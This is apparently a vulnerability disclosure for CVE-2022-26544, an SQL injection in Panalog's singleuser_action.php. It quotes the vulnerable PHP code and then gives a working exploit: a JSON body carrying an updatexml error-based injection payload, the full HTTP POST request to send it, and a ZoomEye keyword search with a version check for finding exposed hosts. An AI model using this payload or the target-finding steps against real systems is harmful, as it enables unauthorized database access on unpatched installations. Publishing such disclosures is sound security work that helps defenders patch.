


# singleuser_action.php

## Overview

`singleuser_action.php` does not filter user input leading to sql injection.

- Affected Product: Panalog
- Affected versions: MARSr9-MARSr10
- CVE ID: CVE-2022-26544
- Vulnerability Type: SQL Injection
- Root Cause: singleuser_action.php, construct sql line 86, exec in line 155.

[Link](https://download.panabit.com:8443/json/system/api.php?action=download&type=panalog&md5=8977c01f5e6caca2462f0315b97147e1) to download this version.

Affected file: `/usr/logd/www/singleuser_action.php`


## Vulnerability Causes

### User input unfiltered

In the 10th line, the user input is taken directly, but not filtered, and the next step is taken directly.

```php
# Line 10-11
$json = json_decode($userinfo);
$operation_type = $json->syncInfo->operationType;
```

Once the mysql connection is established, malicious requests are appended directly to sql statementstion.

```php
# Line 84-98
switch($operation_type) {
case "ADD_USER":
    $sql = "insert into palog.singleuser(user_id, user_name, user_pwd, account_status, user_sex, user_birthday, user_post, user_rank, user_phone, user_mobilephone, user_mailaddress, user_ca, user_class, parent_id, employee_id, department_id, coporation_id, user_duty, user_postcode, user_alias, user_homeaddress, user_msn, user_nt, bxlx) values('$user_id', '$user_name', '$user_pwd', '$account_status', '$user_sex', '$user_birthday', '$user_post', '$user_rank', '$user_phone', '$user_mobilephone', '$user_mailaddress', '$user_ca', '$user_class', '$parent_id', '$employee_id', '$department_id', '$coporation_id', '$user_duty', '$user_postcode', '$user_alias', '$user_homeaddress', '$user_msn', '$user_nt', '$bxlx')";
    $sql2 = "insert into palog.users(username, password, mod_1)values('$user_id', '$user_pwd', 'Y')";
    break;

case "DELETE_USER":
    $sql = "delete from palog.singleuser where user_id='$user_id'";
    $sql2 = "delete from palog.users where username='$user_id'";
    break;

case "UPDATE_USER":
    $sql = "update palog.singleuser set user_name='$user_name', user_pwd='$user_pwd', account_status='$account_status', user_sex='$user_sex', user_birthday='$user_birthday', user_post='$user_post', user_rank='$user_rank', user_phone='$user_phone', user_mobilephone='$user_mobilephone', user_mailaddress='$user_mailaddress', user_ca='$user_ca', user_class='$user_class', parent_id='$parent_id', employee_id='$employee_id', department_id='$department_id', coporation_id='$coporation_id', user_duty='$user_duty', user_postcode='$user_postcode', user_alias='$user_alias', user_homeaddress='$user_homeaddress', user_msn='$user_msn', user_nt='$user_nt', bxlx='$bxlx' where user_id='$user_id'";
    break;
}
```

And SQL statement executed at lines 155-159

```php
if (mysql_query($sql) == false) {
	outputres("no", mysql_error());
	mysql_close();
	exit;
}
```

or depend requests, it may executed at lines 161-162

```php
if ($sql2 != "")
	mysql_query($sql2);
```


## Building malicious requests

In the 10th line, it told us to build a json body, that top key is `syncInfo`  and has `operationType` sub-key, in this case we use `ADD_USER` as `operationType`.

And with `ADD_USER` as `operationType`, look at lines 85-88 to determine what fields we need. Then use lines 58 to 82 as a reference, we can construct a json request to trigger this vulnerability.

json body:

```json
{
    "syncInfo": {
        "operationType": "ADD_USER",
        "user": {
            "userId": "a' || updatexml(1,concat(0x7e,(select @@version),0x7e),1)and '1'='1%23",
            "userPwd": "a"
        }
    }
}
```

HTTP requests:

``` sh
POST /singleuser_action.php HTTP/1.1
Host: TARGET_HOSTS
User-Agent: Mozilla/5.0 (X11; Fedora; Linux x86_64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US;q=0.5,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 223

{
    "syncInfo": {
        "operationType": "ADD_USER",
        "user": {
            "userId": "a' || updatexml(1,concat(0x7e,(select @@version),0x7e),1)and '1'='1%23",
            "userPwd": "a"
        }
    }
}
```


## Proof of vulnerability

Search for the keyword: `您的日志系统时间和您的流控系统时间相差` at https://www.zoomeye.org/

And check for the version using  `TARGET_HOST/cretime.txt`



Any software that can send post packets can reproduce the vulnerability. (e.g: burp)

